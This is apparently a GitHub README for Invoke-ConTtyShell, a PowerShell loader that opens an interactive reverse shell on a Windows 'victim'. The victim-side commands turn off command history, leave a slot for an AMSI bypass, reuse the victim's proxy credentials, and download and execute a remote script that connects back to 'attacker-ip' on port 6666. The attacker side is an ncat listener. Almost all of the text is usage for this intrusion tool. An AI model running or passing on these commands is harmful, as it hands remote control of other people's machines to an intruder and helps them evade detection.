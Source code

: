 # Invoke-ConTtyShell
.Net Assembly loader for [ConTtyShell](https://github.com/ricardojba/ConTtyShell)


Tested on:
* Windows 10 22H2 x64
* Windows 11 22H2 x64

Victim side usage:

```
Set-PSReadlineOption -HistorySaveStyle SaveNothing

<Insert-Your-AMSI-Bypass-From-AMSI.FAIL-Here>

[Net.ServicePointManager]::SecurityProtocol=[Net.SecurityProtocolType]::Tls12
# [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}

[system.net.webrequest]::defaultwebproxy = new-object system.net.webproxy('http://proxy:8080')
[system.net.webrequest]::defaultwebproxy.BypassProxyOnLocal = $true
[system.net.webrequest]::defaultwebproxy.credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials

# [system.net.webrequest]::defaultwebproxy.credentials = Get-Credential

IEX(IWR -UseBasicParsing -UserAgent "hi-there-blueteam" 'https://raw.githubusercontent.com/ricardojba/Invoke-ConTtyShell/main/Invoke-ConTtyShell.ps1')

Invoke-ConTtyShell -Command "attacker-ip 6666"
```

Attacker side usage:

```
stty raw -echo; (stty size; cat) | ncat -lvnp 6666
```
